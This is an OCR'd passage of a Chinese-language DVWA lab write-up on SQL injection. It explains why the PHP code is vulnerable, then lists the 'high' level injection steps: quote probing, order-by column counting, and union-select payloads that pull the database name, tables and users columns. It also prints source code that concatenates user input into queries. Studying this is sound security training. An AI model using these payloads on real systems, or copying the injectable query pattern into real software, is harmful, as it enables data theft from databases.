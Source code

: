 ```PHP
   $query  = "SELECT COUNT(*) FROM   users;";
   $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' .   ((is_object($GLOBALS["___mysqli_ston"])) ?   mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res =   mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
   $number_of_rows = mysqli_fetch_row( $result )[0];
 
   mysqli_close($GLOBALS["___mysqli_ston"]);
   ?> 
```
没有进行预编译 \
用户数据拼接了代码，没有实现代码、数据分离\
没有很好的对敏感关键字进行过滤。想要利用 mysqli_real_escape_string 函数进行敏感字符过滤，但是 mysqli_real_escape_string 函数并不能过滤一些敏感的关键字（如 and or 等），它的功能只是转义一些字符，仅成功过滤了’ 
## SQL Injection-high
输入 2'，出错\
输入 3 and 1=2#，正常输出\
输入 3'and1=2#\
第三种情况无回显（注意引号一定是英文引号，要不然没反应），说明是字符型注入，以单引号闭合\
字符段长度判断 1'order by 2#：正常 1'order by 3#：出错\
判断数据库 \
3' union select 1，database（）from information_schema.schemata#\
[图片]\
和初级一样，接下来查找表名\
3' union select 1,table_name from information_schema.tables where table_schema='dvwa'#\
[图片]\
查找表 users 的列名：\
3' union select 1 ,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#\
[图片]\
查看源码：
```PHP
PHP
<?php

   if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input，相比其他等级改变的地方，session是用于验证用户身份，无法防御已认证用户的注入行为
    $id = $_SESSION[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM   users WHERE user_id = '$id' LIMIT 1;";
            $result =   mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die(   '<pre>Something went wrong.</pre>' );

            // Get results
            while( $row =   mysqli_fetch_assoc( $result ) ) {
                // Get values
                $first =   $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end   user
                echo   "<pre>ID: {$id}<br />First name: {$first}<br   />Surname: {$last}</pre>";
            }

            ((is_null($___mysqli_res =   mysqli_close($GLOBALS["___mysqli_ston"]))) ? false :   $___mysqli_res);        
            break;
        case SQLITE:
            global   $sqlite_db_connection;

            $query  = "SELECT first_name, last_name FROM   users WHERE user_id = '$id' LIMIT 1;";
```